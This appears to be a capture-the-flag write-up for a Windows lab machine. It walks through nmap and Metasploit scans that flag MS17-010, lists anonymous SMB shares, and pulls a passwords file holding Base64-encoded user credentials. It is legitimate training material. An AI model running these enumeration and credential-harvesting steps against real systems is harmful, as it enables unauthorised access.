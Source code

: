 # Relevant
### Penetration Testing Challenge Solution

Firstly I used `nmap -sS -v -v -Pn 10.10.162.179`. 

Result: 
```
  PORT     STATE SERVICE       REASON
  80/tcp   open  http          syn-ack ttl 128
  135/tcp  open  msrpc         syn-ack ttl 128
  139/tcp  open  netbios-ssn   syn-ack ttl 128
  445/tcp  open  microsoft-ds  syn-ack ttl 128
  3389/tcp open  ms-wbt-server syn-ack ttl 128
  MAC Address: 02:FA:18:FA:35:01 (Unknown)
```

Used this command to enumerate RDP service `nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.10.162.179`.

Result:

```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2024-01-09T18:52:43+00:00
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
MAC Address: 02:FA:18:FA:35:01 (Unknown)
```
Possibly we can use **CVE:2018-0886**

Also I use metasploit scanner `/smb/smb_ms17_010` and achieved this result:

```
[+] 10.10.118.190:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard Evaluation 14393 x64 (64-bit)
```
I used more scans to find more information. 

```
msf6 >  nmap -sC -sV -T4 10.10.118.190
[*] exec:  nmap -sC -sV -T4 10.10.118.190

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-10 15:12 UTC
Nmap scan report for ip-10-10-118-190.eu-west-1.compute.internal (10.10.118.190)
Host is up (0.0015s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-01-10T15:13:05+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2024-01-09T14:44:32
|_Not valid after:  2024-07-10T14:44:32
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2024-01-10T15:12:25+00:00
MAC Address: 02:8A:8D:BF:D2:95 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-10T15:12:25
|_  start_date: 2024-01-10T14:44:51
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h35m59s, deviation: 3h34m39s, median: 0s
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 028a8dbfd295 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-01-10T07:12:25-08:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.10 seconds
msf6 > nmap -p445 --script smb-vuln-ms17-010 10.10.118.190
[*] exec: nmap -p445 --script smb-vuln-ms17-010 10.10.118.190

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-10 15:13 UTC
Nmap scan report for ip-10-10-118-190.eu-west-1.compute.internal (10.10.118.190)
Host is up (0.00023s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:8A:8D:BF:D2:95 (Unknown)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

After trying exploits for listed above CVEs without any results I started serching information about smb enumeration. [This] (https://medium.com/@taliyabilal765/smb-enumeration-guide-b2cb5cfb20e6) guide helps me a lot. The solution was much simplier than I thought.

First

```
└─# smbclient -L 10.10.134.13
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
```
Namespace potentially we can use. I tried this
```
└─# smbclient \\\\10.10.134.13\\nt4wrksv
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 21:46:04 2020
  ..                                  D        0  Sat Jul 25 21:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 15:15:33 2020

                7735807 blocks of size 4096. 4949988 blocks available
smb: \> 
```
Use mget to download this file. At file we can find:
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
At first glance it looks like Base64 encoding.



